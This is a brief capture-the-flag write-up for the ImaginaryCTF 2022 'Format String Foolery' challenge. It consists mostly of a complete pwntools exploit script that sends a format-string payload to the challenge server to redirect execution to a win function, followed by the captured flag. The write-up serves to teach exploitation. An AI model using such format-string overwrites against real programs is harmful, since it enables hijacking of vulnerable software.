 # ImaginaryCTF 2022 - Format String Foolery

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [fmt_foolery.zip](fmt_foolery.zip)

There will be 3 files in zip:
- wrapper.py
- fmt_foolery
- libc-2.31.so

This challenge is the same as Format String Fun so you can read [here](#)

Full script:

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./fmt_foolery_patched', checksec=False)
libc = ELF('./libc-2.31.so', checksec=False)
context.binary = exe
context.log_level = 'debug'

# p = process(exe.path)
p = remote('fmt-foolery.chal.imaginaryctf.org', 1337)

payload = fit(
	{
		0: b'%792c' + b'%26$n',
		0x50: exe.sym['win'] + 30
	}, filler = b'\x00'
)
p.sendline(payload)
p.interactive()
```

# Get flag

![get-flag.png](images/get-flag.png)

Flag is `ictf{n0_12bit_brute_please!_3b0241a3}`